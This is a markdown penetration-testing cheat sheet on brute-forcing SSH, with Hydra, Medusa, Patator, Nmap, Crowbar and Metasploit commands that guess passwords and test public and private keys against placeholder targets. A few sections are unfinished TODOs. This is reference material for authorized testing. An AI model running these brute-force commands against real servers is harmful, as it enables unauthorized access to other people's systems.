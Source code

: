 # SSH

## 01 - Bruteforce Passwords

### 1.1 - Hydra

```
$ hydra ssh -U

$ hydra -l <username> -P passwords.lst ssh://<IP>
```

### 1.2 - Medusa

```
$ medusa -h <IP> -u <username> -p <password> -M ssh
```

### 1.3 - Patator

```
$ patator ssh_login -t <int> host=<IP> port=22 user=<username> password=FILE0 0=passwords.lst -x ignore:mesg='Authentication failed.'
```

### 1.4 - Network Mapper

```
$ nmap -p 22 -Pn -n --script ssh-brute --script-args "userdb=users.lst,passdb=pass.lst,ssh-brute.timeout=<seconds>s" <IP>
```

### 1.5 - Metasploit

TODO: Fill this info

- Bruteforce SSH credentials

```
msf > use auxiliary/scanner/ssh/ssh_login

msf auxiliary(scanner/ssh/ssh_login) > options

msf auxiliary(scanner/ssh/ssh_login) > set
```

## 02 - Bruteforce SSH Keys

### 2.1 - Public SSH Keys

#### 2.1.1 - Network Mapper

```
$ nmap -p 22 -Pn -n --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'},publickeys={'./id_rsa1.pub', './id_rsa2.pub'}" <IP>
```

#### 2.1.2 - Metasploit

Note: Any file extension that ends with `.pub`.

```
msf > use auxiliary/scanner/ssh/ssh_identify_pubkeys

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > options

Module options (auxiliary/scanner/ssh/ssh_identify_pubkeys):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   KEY_FILE                           yes       Filename of one or several cleartext public keys.
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set user_file /path/to/users.lst

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set key_file /path/to/ssh_public_key.pub

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set rhosts <IP>

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set rport <PORT>

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > set threads 4

msf auxiliary(scanner/ssh/ssh_identify_pubkeys) > run -j
```

### 2.2 - Private SSH Keys

#### 2.2.1 - Hydra

TODO: Provide a syntax to bruteforce ssh keys

```
$ hydra sshkey -U
```

#### 2.2.2 - Crowbar

TODO: Provide a syntax of sshkey to brute force targets with crowbar

```
$ crowbar -b sshkey -s <IP>/32 -u <username> -k /path/to/ssh_key_file
```

#### 2.2.3 - Network Mapper

```
$ nmap -p 22 -Pn -n --script ssh-publickey-acceptance --script-args "ssh.usernames={'root', 'user'}, ssh.privatekeys={'./id_rsa1', './id_rsa2'}" <IP>
```

#### 2.2.4 - Metasploit

```
msf post(multi/gather/ssh_creds) > use auxiliary/scanner/ssh/ssh_login_pubkey

msf auxiliary(scanner/ssh/ssh_login_pubkey) > options

Module options (auxiliary/scanner/ssh/ssh_login_pubkey):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   KEY_PASS                           no        Passphrase for SSH private key(s)
   KEY_PATH                           no        Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub
                                                " will be skipped. Duplicate private keys will be ignored.
   PRIVATE_KEY                        no        The string value of the private key that will be used. If you are using MSFConsole, this value shou
                                                ld be set as file:PRIVATE_KEY_PATH. OpenSSH, RSA, DSA, and ECDSA private keys are supported.
   RHOSTS                             yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads (max one per host)
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set username <username>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set private_key file:/path/to/ssh_key

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set key_pass <passphrase>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set rhosts <IP>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set rport <PORT>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set threads <int>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > set stop_on_success <true | false>

msf auxiliary(scanner/ssh/ssh_login_pubkey) > run -j
```

---
## References

- [[Crowbar|Crowbar]]

- [Null Byte: Gain SSH Access to Servers by Brute-Forcing Credentials](https://null-byte.wonderhowto.com/how-to/gain-ssh-access-servers-by-brute-forcing-credentials-0194263/)

- [Hacking Articles: Nmap for Pentester Password Cracking](https://www.hackingarticles.in/nmap-for-pentester-password-cracking/)

- [Hacking Articles: SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

- [Rapid7: Metasploit Framework - Auxiliary Scanner SSH Login Pubkey](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/auxiliary/scanner/ssh/ssh_login_pubkey.md)